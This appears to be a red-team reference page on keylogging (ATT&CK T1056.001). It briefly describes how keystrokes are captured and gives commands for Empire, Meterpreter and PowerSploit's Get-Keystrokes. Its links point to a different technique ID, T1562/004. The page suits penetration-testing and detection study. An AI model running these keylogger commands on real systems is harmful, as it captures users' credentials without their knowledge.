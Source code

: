 ```yaml
---
description: https://attack.mitre.org/techniques/T1562/004/
---
```


# Keylogging

**ATT\&CK ID:** [T1056.001](https://attack.mitre.org/techniques/T1562/004/)

**Permissions Required:** <mark style="color:red;">**Administrator**</mark> | <mark style="color:red;">**SYSTEM**</mark> | <mark style="color:red;">**root**</mark> | <mark style="color:green;">**User**</mark>

**Description**

Adversaries may log user keystrokes to intercept credentials as the user types them. Keylogging is likely to be used to acquire credentials for new access opportunities when OS Credential Dumping efforts are not effective, and may require an adversary to intercept keystrokes on a system for a substantial period of time before credentials can be successfully captured.

Keylogging is the most prevalent type of input capture, with many different ways of intercepting keystrokes. Some methods include:

* Hooking API callbacks used for processing keystrokes. Unlike Credential API Hooking, this focuses solely on API functions intended for processing keystroke data.
* Reading raw keystroke data from the hardware buffer.
* Windows Registry modifications.
* Custom drivers.
* Modify System Image may provide adversaries with hooks into the operating system of network devices to read raw keystrokes for login sessions.

## Techniques

### Empire

```
usemodule/powershell/collection/keylogger
```

### Metasploit

```bash
# Meterpreter
keyscan_start
keyscan_dump

# Modules
use post/windows/capture/lockout_keylogger
```

### PowerSploit

**URL:** [https://github.com/PowerShellMafia/PowerSploit/blob/dev/Exfiltration/Get-Keystrokes.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Exfiltration/Get-Keystrokes.ps1)

```powershell
Import-Module .\Exfiltration.psd1
Get-Keystrokes -LogPath c:\key.log
```
